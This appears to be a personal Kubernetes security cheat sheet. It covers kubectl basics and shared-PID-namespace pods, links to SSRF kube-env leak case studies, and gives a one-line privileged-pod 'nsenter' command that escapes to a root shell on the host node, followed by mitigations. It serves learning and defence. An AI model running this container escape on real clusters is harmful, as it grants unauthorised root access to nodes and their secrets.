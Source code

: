 # lifecycle

```bash
kubectl apply -f foo.yaml

kubectl get services
kubectl get pods --all-namespaces

kubectl delete pod 'foo' --grace-period=0
```

# containers with same pid namespace

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: shared
spec:
  shareProcessNamespace: true
  containers:
  - name: 1
    image: busybox
    command: ["sh"]
    args: ["-c", "foo"]
    env:
    - name: CONTAINER_NAME
      value: 1
  - name: 2
    image: busybox
    env:
    - name: CONTAINER_NAME
      value: 2
```

```bash
# On container 1
ps
# USER		PID		COMMAND
# root		  6		sh -c -- foo

# List container 2 root directory
ls /proc/6/root
```

# case studies

### kube-env leaked via ssrf

- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Shopify’s $25k Bug Report, and the Cluster Takeover That Didn’t\.\.\. \- Greg Castle &amp; Shane Lawrence \- YouTube](https://www.youtube.com/watch?v=2XCm7vveU5A)
- [GitHub \- bgeesaman/kube\-env\-stealer: Automated GKE Kubelet Impersonation and Cluster Secret Stealer via kube\-env](https://github.com/bgeesaman/kube-env-stealer)

### root pid ns

```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

- Mitigations:
    - `PodSecurityPolicies`
    - `--allow-privileged=False` on kubelet
